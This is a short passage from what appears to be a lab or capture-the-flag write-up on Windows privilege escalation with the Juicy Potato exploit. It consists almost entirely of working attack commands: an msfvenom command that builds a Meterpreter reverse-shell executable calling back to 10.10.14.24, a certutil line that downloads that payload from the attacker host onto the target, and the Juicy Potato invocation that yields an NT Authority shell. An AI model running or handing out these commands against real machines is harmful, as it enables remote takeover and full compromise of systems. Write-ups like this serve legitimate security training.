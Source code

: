 ## Using Juicy Potato exploit
```
https://github.com/ohpe/juicy-potato
```

Create a 2nd reverse shell with different port. (I used a meterpreter shell payload for this one)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4235 --arch x64 -f exe -o backdoor.exe
```

Uploaded new shell to target
```
certutil -urlcache -split -f http://10.10.14.24/backdoor.exe backdoor.exe
```

Ran Juicy Potato exploit
```
jp.exe -t * -p backdoor.exe -l 4235
```

Shell received in multi handler as NT Authority
![](../Attachments/Pasted%20image%2020210519221825.png)